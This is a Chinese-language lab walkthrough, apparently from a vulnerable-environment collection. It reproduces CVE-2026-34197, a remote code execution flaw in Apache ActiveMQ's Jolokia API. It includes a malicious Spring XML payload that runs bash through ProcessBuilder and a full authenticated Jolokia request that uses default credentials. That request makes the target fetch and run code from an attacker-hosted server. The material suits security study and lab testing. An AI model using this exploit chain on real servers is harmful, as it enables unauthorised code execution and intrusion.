


# Apache ActiveMQ Jolokia远程代码执行漏洞（CVE-2026-34197）

[Apache ActiveMQ](https://activemq.apache.org/)是Apache软件基金会开发的一款开源消息中间件，支持Java消息服务（JMS）、集群、Spring框架集成等功能。

CVE-2026-34197是Apache ActiveMQ 5.19.4版本之前以及6.0.0至6.2.3版本之前存在的一个远程代码执行漏洞。Jolokia JMX-HTTP桥接暴露了ActiveMQ自身MBeans上的操作，其中包括Broker MBean上的`addNetworkConnector(String)`方法。经过认证的攻击者可以调用该操作，传入一个精心构造的`vm://`传输URI，其中包含指向攻击者控制的Spring XML配置文件的`brokerConfig`参数。当ActiveMQ处理该URI时，会获取并解析远程XML配置，从而触发Spring Bean实例化并执行任意代码。

该漏洞可以与CVE-2024-32114（ActiveMQ 6.0.0至6.1.1版本中Jolokia未授权访问）组合利用实现未授权RCE，也可以在需要API认证的版本上使用默认凭据（`admin:admin`）进行利用。

参考链接：

- <https://horizon3.ai/attack-research/disclosures/cve-2026-34197-activemq-rce-jolokia/>
- <https://activemq.apache.org/security-advisories.data/CVE-2026-34197-announcement.txt>
- <https://github.com/advisories/GHSA-rxpj-7qvf-xv32>

## 环境搭建

执行如下命令启动Apache ActiveMQ 6.2.2：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8161`即可看到ActiveMQ Web控制台，使用默认凭据`admin:admin`登录。

## 漏洞复现

与[CVE-2024-32114](../CVE-2024-32114/)的环境（ActiveMQ 6.1.1）不同，ActiveMQ 6.2.2已对Jolokia API增加了认证要求。未携带凭据发送请求将返回401 Unauthorized：



但由于CVE-2026-34197是一个认证后的RCE漏洞，攻击者可以使用默认凭据`admin:admin`进行利用。

首先，在攻击机上启动一个HTTP服务器，用于托管恶意Spring XML配置文件。以下示例会在目标服务器上执行`id > /tmp/success`命令：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value><![CDATA[id > /tmp/success]]></value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

在`poc.xml`所在目录启动HTTP服务器：

```
python3 -m http.server 80
```

然后，使用默认凭据发送如下请求到Jolokia API来调用Broker MBean上的`addNetworkConnector`操作。该请求创建一个使用`static:`发现URI的网络连接器，指向一个`vm://`传输，其`brokerConfig`参数通过Spring的`xbean:`资源加载引用攻击者的恶意XML。将`your-ip`替换为目标ActiveMQ服务器地址，`evil-ip`替换为攻击者HTTP服务器地址：

```
POST /api/jolokia/ HTTP/1.1
Host: your-ip:8161
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=

{"type":"exec","mbean":"org.apache.activemq:type=Broker,brokerName=localhost","operation":"addNetworkConnector(java.lang.String)","arguments":["static:(vm://evil?brokerConfig=xbean:http://evil-ip/poc.xml)"]}
```

当ActiveMQ处理该网络连接器时，它会尝试连接到`vm://evil`代理。由于名为"evil"的代理不存在，ActiveMQ会使用`brokerConfig`参数来创建它。`xbean:`前缀告诉ActiveMQ使用Spring的`ResourceXmlApplicationContext`来加载配置，该机制支持HTTP URL。Spring解析远程XML并实例化所有定义的Bean——包括我们的`ProcessBuilder` Bean，其`start()`初始化方法会执行操作系统命令。



通过检查容器内的结果文件来验证命令已执行：

```
docker compose exec activemq ls -al /tmp/
docker compose exec activemq cat /tmp/success
```


